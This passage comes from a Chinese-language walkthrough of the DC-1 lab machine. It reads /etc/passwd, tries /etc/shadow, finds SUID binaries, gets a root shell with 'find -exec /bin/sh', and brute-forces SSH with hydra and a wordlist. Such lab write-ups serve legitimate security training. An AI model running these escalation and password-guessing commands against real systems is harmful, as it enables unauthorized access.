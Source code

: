 [Linux /etc/passwd内容解释（超详细）](http://c.biancheng.net/view/839.html)

[Linux /etc/shadow（影子文件）内容解析（超详细）](http://c.biancheng.net/view/840.html)

还提示到``perms、find、-exec``关键词

### 4.SUID提权

`cat /etc/passwd` 发现了一个用户 `flag4`

![image-20221001100310739](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210011003787.png)

找到flag4所在文件

![image-20221001100641721](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210011006752.png)

```
Can you use this same method to find or access the flag in root?Probably. But perhaps it's not that easy.  Or maybe it is?
你能用同样的方法来查找或访问根目录中的标志吗？可能但也许这并不容易。或者可能是这样？
```

继续，查看/etc/shadow，但权限不够

![image-20221001100931797](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210011009824.png)

使用find命令查找有特殊权限`suid`的命令：`find / -perm -4000`

![](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210011013758.png)

### 5.获取flag

使用find命令提权

```
find ./ aaa -exec '/bin/sh' \;
```

![image-20221001101452655](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210011014690.png)



参考网上的博客后，还学习到一种思路。

目标靶机用户`flag4`,并且有`/bin/bash`，看到这想到了还有端口22，所以ssh连接。但是密码不知道所以只能用爆破神器`hydra`

用kali自带密码字典，路径为``/usr/share/john/password.lst``,kali自带各种密码默认保存在``/usr/share/``下。

```
hydra -l flag4 -P /usr/share/john/password.lst 192.168.119.134 ssh -vV -f 

其中-l表示指定爆破的用户，-P表示指定使用哪个密码字典，ip为DC1的ip，利用ssh协议做爆破
```

![image-20221001104351971](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210011043002.png)

![image-20221001104428397](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210011044427.png)
